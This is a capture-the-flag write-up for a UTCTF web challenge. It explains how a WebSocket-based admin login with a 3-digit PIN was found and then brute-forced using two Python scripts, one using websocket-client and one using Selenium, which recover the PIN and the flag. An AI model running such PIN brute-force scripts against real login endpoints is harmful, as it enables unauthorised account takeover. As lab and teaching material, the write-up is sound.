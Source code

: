 # WebSockets

### 1. Initial reconnaissance:

This is the first appearance of this challenge. There are only 2 functions in the given web app: the homepage and `/internal/login`.

![image](https://user-images.githubusercontent.com/61876488/158421381-c8fe5b3a-f60b-4975-9746-eef8e2557bb4.png)

![image](https://user-images.githubusercontent.com/61876488/158421488-2fb1c34a-f299-4791-b1dd-9de850817ba6.png)

For some reasons, when we click the "Contact us" button in the homepage, there is no "Contact us" function.

![image](https://user-images.githubusercontent.com/61876488/158421939-a7876768-8919-4d29-b13c-014a9ff92a31.png)

I have found the reasons behind when `CTRL + U` and view source. You can see in the HTML comment above the anchor tag.

![image](https://user-images.githubusercontent.com/61876488/158429913-e62fe44b-97cd-444d-9f67-89d1484f24b1.png)

It said: `...for some reason only the 'admin' account can change it`, this means we will try to log in as `admin`. Hence go to `/internal/login` and check it out!

![image](https://user-images.githubusercontent.com/61876488/158433337-494e236a-b82e-4d35-bb8a-b09b8366e22a.png)

It said `...we still have some old 3-digit pins left`, this means beside the username given in the first hint, the PIN we will try to firgue out have only 3 digits. Super easy to brute force!!

### 2. Analysis:

Well, I have to take my words back =))). It is not easy if you brute force as a blind. Because this login page use websockets to send their data from the login form. First of all, to establish the connection, the browser and server perform a WebSocket handshake over HTTP. The browser issues a WebSocket handshake request like the following:

![image](https://user-images.githubusercontent.com/61876488/158437197-4fe1e9f3-dca2-4c6a-94a3-e9087b4c1fdc.png)

After that when checking `WebSockets history` in Burp Suite, we can see some WebSocket messages sent between client and server:

![image](https://user-images.githubusercontent.com/61876488/158438334-72144648-b0f3-4f52-b2ff-43a2a8a38dbf.png)

According the directions of websockets, here is my idea to exploit:

- Create a list of PIN to brute force, from 000 to 999.
- For each PIN in the list, send a series of **websockets message from client to server**: `begin` -> `user admin` -> `pass <put the PIN here>`.
- If `bad pass` does not appear in the **websockets message from server to client**, maybe we will log in successfully and the PIN just sent is the right one.

### 3. Exploit:

This is [my exploit code](solve2.py), using [websocket-client](https://pypi.org/project/websocket-client/) module in Python:

```python
from websocket import create_connection

def brute_list(): # Create a list of PIN to brute force, from 000 to 999.
    brute = [] 
    for i in range(1,9):
        brute.append('00'+str(i))
    for i in range(10,99):
        brute.append('0'+str(i))
    for i in range(100,1000):
        brute.append(str(i))
    return brute

def solve():
    brute = brute_list()
    print('Try to connect!')
    for i in brute:    # For each PIN in the list, send a series of websockets message from client to server: begin -> user admin -> pass <put the PIN here>.
        ws = create_connection("ws://web1.utctf.live:8651/internal/ws") 
        ws.send("begin")
        ws.send("user admin")
        print('Pass: '+str(i))
        ws.send("pass {}".format(i))
        if 'badpass' not in ws.recv():
            print(ws.recv())
        ws.close()

if __name__=="__main__":
    solve()
```

After a while since we run this code, there is a PIN sent and then returned to us a session token. It is `907` and this is the right PIN.

![image](https://user-images.githubusercontent.com/61876488/158443448-2453fddf-07d1-4c55-a352-6e76c9a3c19e.png)

Login with the PIN `907` and get the flag:

![image](https://user-images.githubusercontent.com/61876488/158443658-328a8eaa-6c25-4fc7-9184-bcdaeebe8dec.png)

There is [an another amazing way](solve1.py) to exploit from my teammate [Gourav Suram](https://github.com/heapbytes). He used [selenium](https://selenium-python.readthedocs.io/):

```python
from selenium.webdriver.common.keys import Keys
from selenium import *
from pprint import pprint


driver=webdriver.Chrome('./Downloads/chromedriver')
driver.maximize_window()
driver.get('http://web1.utctf.live:8651/internal/login')

for i in range(100,999):

    try:
        driver.find_element_by_xpath('/html/body/div[1]/div/form/input[1]').clear()
        driver.find_element_by_xpath('/html/body/div[1]/div/form/input[1]').send_keys("admin")
        driver.find_element_by_xpath('/html/body/div[1]/div/form/input[2]').clear()
        driver.find_element_by_xpath('/html/body/div[1]/div/form/input[2]').send_keys(str(i))

        driver.find_element_by_xpath('/html/body/div[1]/div/form/input[3]').click()
        m=driver.find_element_by_xpath('/html/body/div[1]/div/span')

        if m.text!='Incorrect PIN':
            print(m)
    except:
        break
```        
     

